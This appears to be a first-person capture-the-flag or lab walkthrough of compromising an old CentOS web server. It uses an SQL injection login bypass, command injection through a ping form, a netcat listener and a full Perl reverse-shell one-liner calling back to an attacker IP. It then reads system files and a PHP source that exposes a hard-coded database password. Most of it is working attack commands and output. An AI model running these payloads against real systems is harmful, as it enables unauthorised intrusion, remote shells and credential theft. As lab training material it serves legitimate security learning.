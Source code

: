 admin' OR TRUE #

That gets past the "login" page and drops me to a web page that can ping a host on the network.  Again, i'm assuming they are not sanitizing input.

192.168.118.181 && whoami

Yep, I can execute commands.  Time to get a better shell.

netcat is everyone's favorite tools, time to get it ready.

nc -nlvp 443

Now, the server is fairly old.  I'm betting a lot of the common reverse shell stuff isn't installed.

192.168.118.181 && perl --version

This is perl, v5.8.5 built for i386-linux-thread-multi

The lovely people at http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet have a perl reverse shell.  Let's give it a try.

192.168.118.181 && perl -e 'use Socket;$i="192.168.118.180";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

Like magic nc has a shell for us.

sh-3.00$ whoami
apache
sh-3.00$ cat /proc/version
Linux version 2.6.9-55.EL (mockbuild@builder6.centos.org) (gcc version 3.4.6 20060404 (Red Hat 3.4.6-8)) #1 Wed May 2 13:52:16 EDT 2007

sh-3.00$ cat /var/www/html/index.php
<?php
	mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
	//print "Connected to MySQL<br />";
	mysql_select_db("webapp");

  	if ($POST['uname'] != ""){
		$username = $POST['uname'];
		$password = $POST['psw'];
		$query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
		//print $query."<br>";
		$result = mysql_query($query);

		$row = mysql_fetch_array($result);
		//print "ID: ".$row['id']."<br />";
	}

 ?>

Look!  A username and password for MySQL!

Let's spawn a python shell, make this shell useable.

python -c 'import pty;pty.spawn("/bin/sh")'
